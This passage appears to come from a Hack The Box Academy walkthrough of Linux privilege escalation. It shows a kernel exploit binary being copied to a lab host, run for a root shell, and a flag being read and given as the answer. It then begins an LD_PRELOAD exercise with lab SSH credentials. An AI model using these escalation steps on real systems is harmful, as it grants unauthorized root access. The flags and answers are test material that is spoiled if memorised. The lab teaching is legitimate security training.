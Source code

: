 Code: shell

```shell
scp kernelExploit htb-student@STMIP:/home/htb-student/
```

```
┌─[eu-academy-1]─[10.10.14.40]─[htb-ac-594497@htb-mrizotlp0i]─[~]
└──╼ [★]$ scp kernelExploit htb-student@10.129.102.187:/home/htb-student/

htb-student@10.129.102.187's password: 
kernelExploit                                                                                                                                          100%   21KB 118.4KB/s   00:00 
```

Now, students need return to the initial SSH session and run the exploit, obtaining a root shell:

Code: shell

```shell
./kernelExploit
```

```
htb-student@NIX02:~$ ./kernelExploit 

bash-4.4# 
```

Finally, students need to read the contents of the flag:

Code: shell

```shell
cat /root/kernel_exploit/flag.txt
```

```
bash-4.4# cat /root/kernel_exploit/flag.txt

46237b8aa523bc7e0365de09c0c0164f
```

Answer: `46237b8aa523bc7e0365de09c0c0164f`

# Shared Libraries

## Question 1

### "Escalate privileges using LD\_PRELOAD technique. Submit the contents of the flag.txt file in the /root/ld\_preload directory."

Students first need to connect to `STMIP` with `SSH` using the credentials `htb-student:Academy_LLPE!`:

Code: shell
